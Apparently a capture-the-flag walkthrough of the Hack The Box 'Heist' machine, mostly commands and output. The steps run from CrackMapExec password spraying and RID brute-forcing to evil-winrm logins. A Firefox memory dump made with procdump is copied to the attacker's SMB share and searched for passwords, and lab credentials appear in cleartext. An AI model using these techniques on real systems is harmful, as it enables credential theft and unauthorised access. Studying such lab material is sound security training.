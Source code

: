 cme winrm 10.10.10.149 -u hazard -p stealth1agent

SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
HTTP        10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:stealth1agent


cme smb 10.10.10.149 -u hazard -p stealth1agent -d SupportDesk.local --rid-brute

┌─[vagrant@parrot]─[~/Git/hackthebox/boxes/Heist]
└──╼ $cme smb 10.10.10.149 -u hazard -p stealth1agent -d SupportDesk.local --rid-brute
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk.local) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk.local\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)


cme smb 10.10.10.149 -u users.txt -p passwords.txt -d SupportDesk.local

┌─[vagrant@parrot]─[~/Git/hackthebox/boxes/Heist]
└──╼ $cme smb 10.10.10.149 -u users.txt -p passwords.txt -d SupportDesk.local
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk.local) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\Jason:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk.local\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk.local\Chase:Q4)sJu\Y8qz*A3?d 



evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

get-process -name Firefox

upload procdump64.exe

./procdump64.exe -ma 6576 firefox.dmp

sudo /home/vagrant/.local/bin/smbserver.py -smb2support -username guest -password guest share ./

net use x: \\10.10.14.3\share /user:guest guest

cmd /c "copy firefox.dmp X:\"

strings -el "firefox.dmp" | grep password

[//]: # (psexec.py 'administrator:4dD!5}x/re8]FBuZ@10.10.14.3')

evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
